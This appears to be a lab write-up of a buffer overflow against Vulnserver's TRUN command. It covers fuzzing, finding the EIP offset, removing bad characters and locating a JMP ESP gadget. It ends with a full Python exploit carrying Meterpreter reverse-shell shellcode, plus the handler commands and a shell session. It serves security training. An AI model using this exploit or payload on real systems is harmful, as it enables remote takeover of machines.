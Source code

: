 ```yaml
---
layout: post 
title: Vulnserver-Trun
date: 2020-01-30
author: Mojo
categories: ["Vulnserver"]
---
```


# ** TRUN **

This is probably the best place to start on vulnserver.
The function is straight forward once you know what triggers the BOF.

I read vulnserver.c but you can also fuzz for these with tools like [spike](https://github.com/guilhermeferreira/spikepp/tree/master/SPIKE).

![trun-trigger](/assets/pictures/bofs/vulnserver/trun-trigger.PNG)

##### "." is apparently the trigger

Using my little [fuzz script](https://gist.github.com/mojodojo101/9df5012a0928f824d158e50d91305435) i was able to find a break point quickly



```bash
root@kali:~/redteam/vulnserver# python fuzzer.py -h
usage: fuzzer.py [-h] -f FUNC_TO_FUZZ -l LENGTH_OF_BUFFER -i IP -p PORT
                 [-b BAD_CHARS]
                 {func} ...

bof-exploit

positional arguments:
  {func}               func ['fuzzbc', 'testeip', 'fuzzbp']

optional arguments:
  -h, --help           show this help message and exit
  -f FUNC_TO_FUZZ      function to fuzz for example "HELLO "
  -l LENGTH_OF_BUFFER  length of buffer
  -i IP                ip
  -p PORT              port
  -b BAD_CHARS         bad chars for example "0x10,0x0a,0x0d"
```

Lets send our first payload. Using the function fuzzbp (Fuzz breaking point). And specifying a -f for which function to fuzz on the server. In this case we want to fuzz "TRUN ." 


```bash
root@kali:~/redteam/vulnserver# python fuzzer.py -f "TRUN ." -l 4000 -i 192.168.138.139 -p 9999 func fuzzbp 
send payload to 192.168.138.139:9999 with total length of 4000 .
 the last 20 bytes of the buffer are:
 41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:0d:0a
```
This crashed the Server with a bunch of "A"'s
![crash-1](/assets/pictures/bofs/vulnserver/trun-crash-1.PNG)

Like a [binary-search-algorithm](https://en.wikipedia.org/wiki/Binary_search_algorithm) i will just cut the length of our buffer in half now to home in on the crashing point.

We can quickly restart the server by pressing F3, selecting the correct binary and pressing 2 times F9.

```bash
    root@kali:~/redteam/vulnserver# python fuzzer.py -f "TRUN ." -l 4000 -i 192.168.138.139 -p 9999 func fuzzbp 
^CTraceback (most recent call last): 
  File "fuzzer.py", line 120, in <module>                   
    FUNCTION_MAP[args.func](args.func_to_fuzz,args.length_of_buffer,[args.bad_chars],args.ip,args.port)     
  File "fuzzer.py", line 62, in fuzzBreakPoint                  
    sendPayload(buffer,ip,port)      
  File "fuzzer.py", line 40, in sendPayload                 
    s.recv(1024)                                                                                                                                            
KeyboardInterrupt                                                             
root@kali:~/redteam/vulnserver# python fuzzer.py -f "TRUN ." -l 2000 -i 192.168.138.139 -p 9999 func fuzzbp 
send payload to 192.168.138.139:9999 with total length of 2000 .
 the last 20 bytes of the buffer are:                                                                                                                       
 41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:0d:0a    
root@kali:~/redteam/vulnserver#      
root@kali:~/redteam/vulnserver# python fuzzer.py -f "TRUN ." -l 3000 -i 192.168.138.139 -p 9999 func fuzzbp 
send payload to 192.168.138.139:9999 with total length of 3000 .                                                                                            
 the last 20 bytes of the buffer are:                                         
 41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:41:0d:0a
root@kali:~/redteam/vulnserver# python fuzzer.py -f "TRUN ." -l 2500 -i 192.168.138.139 -p 9999 func fuzzbp
...

```
Eventually we will find the last offset where we dont stop the programs execution is at 2006 bytes.

Now we can start looking for [EIP](http://unixwiz.net/techtips/win32-callconv-asm.html) using -f testeip

```bash
root@kali:~/redteam/vulnserver# python fuzzer.py -f "TRUN ." -l 2018 -i 192.168.138.139 -p 9999 func testeip
send payload to 192.168.138.139:9999 with total length of 2018 .
 the last 20 bytes of the buffer are:
 41:41:41:41:41:41:42:42:42:42:43:43:43:43:44:44:44:44:0d:0a
```
![trun-crash-2](/assets/pictures/bofs/vulnserver/trun-crash-1.PNG)

We overwrote EIP with 4* 0x44 which corresponds to the bytes 2013-2016 since the last two bytes are our \r\n.

Now we should check for bad chars by using the -f fuzzbc (Fuzz bad characters) function.

```bash
root@kali:~/redteam/vulnserver# python fuzzer.py -f "TRUN ." -l 2018 -i 192.168.138.139 -p 9999 func fuzzbc
send payload to 192.168.138.139:9999 with total length of 2274 .
 the last 20 bytes of the buffer are:
 ee:ef:f0:f1:f2:f3:f4:f5:f6:f7:f8:f9:fa:fb:fc:fd:fe:ff:0d:0a
```

![trun-bc-1](/assets/pictures/bofs/vulnserver/trun-bc-1.PNG)

The first byte in our bad chars fuzz buffer "0x00" stopped the server from receiving more information.
We add the -b "0x00" flag to blacklist that byte.

```
python fuzzer.py -f "TRUN ." -l 2018 -i 192.168.138.139 -p 9999 -b "0x00" func fuzzbc
```
Now it seems like the fuzzing chars all went through 

![trun-gc-1](/assets/pictures/bofs/vulnserver/trun-gc-1.PNG)


![trun-gc-2](/assets/pictures/bofs/vulnserver/trun-gc-2.PNG)

We can check this by subtracting the amount of bad chars we removed from our 256-char buffer. We only removed 1 char so our buffer should be 255 bytes long.
And indeed our buffer stops exactly at 0x23dfadf.

```bash
     printf "%x" $(($(echo $((0x023DF9E0)))+255))
     23dfadf
```

Search for a gadget that lets us jump to our shellcode. Since i turned DEP and ASLR off for this exercise we can just search for a JMP ESP statement. Using msf-nasm-shell or my personal favorite rasm2 we can find the right opcode for this.

```bash
    rasm2 -a x86 -b 32  "jmp esp"
    #returns ffe4
```
Use "!mona modules" in Immunity-debugger-console to find modules which have little protection. vulnserver.exe and essfunc.dll seem like a good source of gadgets.
```cmd
    !mona modules
```

![mona-modules](/assets/pictures/bofs/vulnserver/trun-mona-modules.PNG)

Search for our jmp esp in the modules.
```cmd
    !mona find -s "\xff\xe4" -m essfunc.dll
```

![mona-jmp-esp](/assets/pictures/bofs/vulnserver/trun-mona-jmp-esp.PNG)

Great 0x625011af seems like a good choice for our exploit since it does not contain any bad chars ("0x00").
This means we have all the pieces to craft our script.

To recap we need;
1. "Trun ." to trigger the exploit. (total length 6)
2. 2006 bytes of random chars which are not 0s (total length 2012)
3. EIP, which will be 0x625011af reversed since windows uses little endian for everything but Networking 
-> 0xaf115062
4. Some NOP aka 0x90 to give our exploit space on the stack

#### The final exploit:
```python
import sys,socket
host="192.168.138.139"
port=9999

#msfvenom -p windows/meterpreter/reverse_tcp -f python LHOST=192.168.138.138 LPORT=443 > shellcode

buf =  b""
buf += b"\xd9\xc3\xb8\x0a\xe4\xfe\x67\xd9\x74\x24\xf4\x5f\x33"
buf += b"\xc9\xb1\x56\x83\xef\xfc\x31\x47\x14\x03\x47\x1e\x06"
buf += b"\x0b\x9b\xf6\x44\xf4\x64\x06\x29\x7c\x81\x37\x69\x1a"
buf += b"\xc1\x67\x59\x68\x87\x8b\x12\x3c\x3c\x18\x56\xe9\x33"
buf += b"\xa9\xdd\xcf\x7a\x2a\x4d\x33\x1c\xa8\x8c\x60\xfe\x91"
buf += b"\x5e\x75\xff\xd6\x83\x74\xad\x8f\xc8\x2b\x42\xa4\x85"
buf += b"\xf7\xe9\xf6\x08\x70\x0d\x4e\x2a\x51\x80\xc5\x75\x71"
buf += b"\x22\x0a\x0e\x38\x3c\x4f\x2b\xf2\xb7\xbb\xc7\x05\x1e"
buf += b"\xf2\x28\xa9\x5f\x3b\xdb\xb3\x98\xfb\x04\xc6\xd0\xf8"
buf += b"\xb9\xd1\x26\x83\x65\x57\xbd\x23\xed\xcf\x19\xd2\x22"
buf += b"\x89\xea\xd8\x8f\xdd\xb5\xfc\x0e\x31\xce\xf8\x9b\xb4"
buf += b"\x01\x89\xd8\x92\x85\xd2\xbb\xbb\x9c\xbe\x6a\xc3\xff"
buf += b"\x61\xd2\x61\x8b\x8f\x07\x18\xd6\xc7\xe4\x11\xe9\x17"
buf += b"\x63\x21\x9a\x25\x2c\x99\x34\x05\xa5\x07\xc2\x1c\xa1"
buf += b"\xb7\x1c\xa6\xa2\x49\x9d\xd6\xeb\x8d\xc9\x86\x83\x24"
buf += b"\x72\x4d\x54\xc8\xa7\xfb\x5e\x5e\x88\x53\xd4\x14\x60"
buf += b"\xa1\xe9\x29\xca\x2c\x0f\x79\x7c\x7e\x80\x3a\x2c\x3e"
buf += b"\x70\xd3\x26\xb1\xaf\xc3\x48\x18\xd8\x6e\xa7\xf4\xb0"
buf += b"\x06\x5e\x5d\x4a\xb6\x9f\x48\x36\xf8\x14\x78\xc6\xb7"
buf += b"\xdc\x09\xd4\xa0\xba\xf1\x24\x31\x2f\xf1\x4e\x35\xf9"
buf += b"\xa6\xe6\x37\xdc\x80\xa8\xc8\x0b\x93\xaf\x37\xca\xa5"
buf += b"\xc4\x0e\x58\x89\xb2\x6e\x8c\x09\x43\x39\xc6\x09\x2b"
buf += b"\x9d\xb2\x5a\x4e\xe2\x6e\xcf\xc3\x77\x91\xb9\xb0\xd0"
buf += b"\xf9\x47\xee\x17\xa6\xb8\xc5\x2b\xa1\x46\x9b\x03\x0a"
buf += b"\x2e\x63\x14\xaa\xae\x09\x94\xfa\xc6\xc6\xbb\xf5\x26"
buf += b"\x26\x16\x5e\x2e\xad\xf7\x2c\xcf\xb2\xdd\xf1\x51\xb2"
buf += b"\xd2\x29\x62\xc9\x9b\xce\x83\x2e\xb2\xaa\x84\x2e\xba"
buf += b"\xcc\xb9\xf8\x83\xba\xfc\x38\xb0\xb5\x4b\x1c\x91\x5f"
buf += b"\xb3\x32\xe1\x75"
#addr of JMP ESP = 0x625011af
exploitbuffer="TRUN ."+"A"*2006+"\xaf\x11\x50\x62"+"\x90"*16+buf+"\r\n"
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((host,port))
s.recv(1024)
s.send(exploitbuffer)
sys.exit(0)
```

Now to run the exploit:
```bash
    msfconsole
    use exploit/multi/handler
    set lhost 127.0.0.1
    set lport 443
    run
```
and in another terminal

```bash
    python exploit.py
```

And we get a nice shell back
```bash
meterpreter > shell
Process 3720 created.
Channel 2 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\IEUser\Desktop\vulnserver>whoami
whoami
iewin7\ieuser

C:\Users\IEUser\Desktop\vulnserver>    

```
